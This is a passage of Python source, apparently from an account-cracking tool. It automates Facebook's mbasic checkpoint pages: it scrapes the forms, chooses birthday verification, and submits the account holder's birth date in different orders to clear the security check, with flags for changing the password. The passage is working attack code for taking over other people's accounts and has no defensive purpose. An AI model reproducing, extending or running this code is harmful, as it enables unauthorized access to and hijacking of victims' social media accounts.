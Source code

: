 						if c >= 2:
							option_.append("\n"+p+" |_"+str(c)+k+" "+dev.text)
						else:
							option_.append("\n"+p+" \\_"+str(c)+k+" "+dev.text)

						if str(dev["value"]) == "2":
							sesi_ttl.append("2")
						c += 1

					dat = data.split()

					if len(pw_tap) != 0:
						if len(sesi_ttl) == 1 and len(dat) == 7 or len(sesi_ttl) == 1 and len(dat) == 6:
							data = data.replace("Chek", "Yes").replace("\033[90;1m", "\033[92;1m").replace("\033[93;1m", "\033[96;1m")
							if len(dat) == 6:
								_ttl_dev_ = dat[5]
							else:
								ttl_dev = dat[6].split("m")
								_ttl_dev_ = ttl_dev[1]
							
							tl_dev = _ttl_dev_.split("/")
							
							sesi_ttl = []
							sop_dev = BeautifulSoup(respon_.content, "html.parser")
							form = sop_dev.find("form")
							url_post = form["action"]
							nh = sop_dev.find("input", attrs={"name": "nh"})["value"]
							submit = sop_dev.find("input", attrs={"name": "submit[Continue]"})["value"]
							payload = {}
							for dev in form:
								input = dev
								payload[input.get("name")] = input.get("value")
							payload.update({"nh": nh, "submit[Continue]": submit, "verification_method": "2"})
							respon_ttl = ses_dev.post("https://mbasic.facebook.com"+url_post, data=payload)
							kondisi = []
							c = 1
							while True:
								c += 1
								if c == 3:
									break
								sop_dev2 = BeautifulSoup(respon_ttl.content, "html.parser")
								form = sop_dev.find("form")
								url_post_2 = form["action"]
								nh = sop_dev.find("input", attrs={"name": "nh"})["value"]
								submit = sop_dev.find("input", attrs={"name": "submit[Continue]"})["value"]
								payload = {}
								for dev in form:
									input = dev
									payload[input.get("name")] = input.get("value")
								if len(kondisi) != 1:
									payload.update({"nh": nh, "submit[Continue]": submit, "birthday_captcha_day": str(tl_dev[1]), "birthday_captcha_month": str(tl_dev[0]), "birthday_captcha_year": str(tl_dev[2])})
								else:
									kondisi = []
									payload.update({"nh": nh, "submit[Continue]": submit, "birthday_captcha_day": str(tl_dev[0]), "birthday_captcha_month": str(tl_dev[1]), "birthday_captcha_year": str(tl_dev[2])})
								respon_ttl_2 = ses_dev.post("https://mbasic.facebook.com"+url_post_2, data=payload)
								tampil_ttl.append("IqbalDev")
								ganti_pw.append("dev")
								if "checkpointSecondaryButton" in respon_ttl_2.text:
									bug.append("dev")
									sop_dev = BeautifulSoup(respon_ttl_2.content, "html.parser")
									form = sop_dev.find("form")
									url_post_ = form["action"]
									submit = sop_dev.find("input", attrs={"name": "submit[Yes]"})["value"]